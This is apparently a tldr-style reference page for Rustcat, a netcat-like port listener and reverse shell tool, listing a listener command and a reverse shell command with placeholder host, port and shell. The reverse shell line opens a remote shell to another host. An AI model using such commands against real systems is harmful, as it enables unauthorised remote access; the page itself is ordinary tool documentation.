 # rc

> Rustcat is a modern port listener & Reverse Shell that is very easy to use.
> Similair to `nc` with an emphasis on ease of use.
> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>.

- Start a listener:

`rc -lp {{port}}`

- Start a reverse shell:

`rcat {{host}} {{port}} -r {{shell}}`
